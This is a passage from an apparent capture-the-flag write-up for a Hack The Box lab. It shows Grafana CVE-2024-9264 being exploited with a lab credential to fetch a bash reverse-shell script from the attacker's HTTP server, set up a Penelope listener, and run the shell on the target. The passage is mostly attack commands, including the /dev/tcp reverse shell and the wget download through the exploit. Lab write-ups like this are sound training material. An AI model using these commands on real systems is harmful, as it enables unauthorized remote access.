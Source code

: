 <figure><img src="../../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

Now, we can transfer a simple reverse shell to machine with this command.&#x20;

{% code title="rev.sh" %}
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.111/9009 0>&1
```
{% endcode %}

{% code title="Start http server" %}
```bash
# on kali machine
python3 -m http.server 80
```
{% endcode %}

{% code overflow="wrap" %}
```bash
python3 CVE-2024-9264.py -u 'admin' -p '0D5oT70Fq13EvB5r'  -c "wget http://10.10.14.111/rev.sh"  http://grafana.planning.htb
```
{% endcode %}

## Reverse shell&#x20;

Once we have the rev.sh file, configure a listener and run it on target machine.

{% code title="Start Penelope listener" %}
```bash
penelope
listeners add 10.10.14.111 9009
```
{% endcode %}

{% code title="Run the rev shell" overflow="wrap" %}
```bash
# give permission
python3 CVE-2024-9264.py -u 'admin' -p '0D5oT70Fq13EvB5r'  -c "chmod +x rev.sh"  http://grafana.planning.htb

# run the shell
python3 CVE-2024-9264.py -u 'admin' -p '0D5oT70Fq13EvB5r'  -c "./rev.sh"  http://grafana.planning.htb
```
{% endcode %}
